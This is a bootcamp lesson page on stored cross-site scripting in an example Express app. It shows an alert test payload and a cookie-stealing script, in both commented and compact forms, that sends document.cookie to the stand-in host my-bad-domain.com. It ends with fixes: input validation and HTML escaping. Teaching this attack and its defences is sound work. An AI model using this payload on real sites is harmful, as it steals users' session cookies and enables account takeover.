


# 9.1.1: XSS

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```text
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.



#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.


#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we can do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

Commented Version:

```javascript
<script>
var allCookies = document.cookie;

// don't do an AJAX request in case there are CORS issues
// create an image tag
var imgEl = document.createElement('img');

// settting the img src causes the browser to try and request from this domain
imgEl.src = 'http://my-bad-domain.com?'+allCookies;
</script>
```

Compact Version:

```javascript
<script>var allCookies = document.cookie;var imgEl = document.createElement('img');imgEl.src = 'http://my-bad-domain.com?'+allCookies;</script>
```

Open the network tab and notice how all the cookie information is being sent to the malicious server.



### XSS Solutions

In the example app this XSS attack was facilitated by 2 parts of the code:

**1. No validation of the user's inputs.**

Ideally the app would never allow a user to enter any text into the cat name field that resembles code.

An easy implementation to guard against this is to use one of many common NPM libraries made for this purpose. [xss](https://www.npmjs.com/package/xss) is one of the most popular.

**2. No sanitization of the display of the database values.**

In this special express app we are not running EJS. When we print out the values from the database our code will directly generate HTML tags that will be interpreted by the browser.

See the code here: [https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js\#L320](https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320)

If we had used EJS, the code's characters would be displayed on the screen, instead of being interpreted by the browser. This is called HTML character escape. Most modern view / HTML generation libraries will provide this functionality built-in. However, character escape does not always keep the app safe from XSS. The other measures already mentioned should still be implemented.

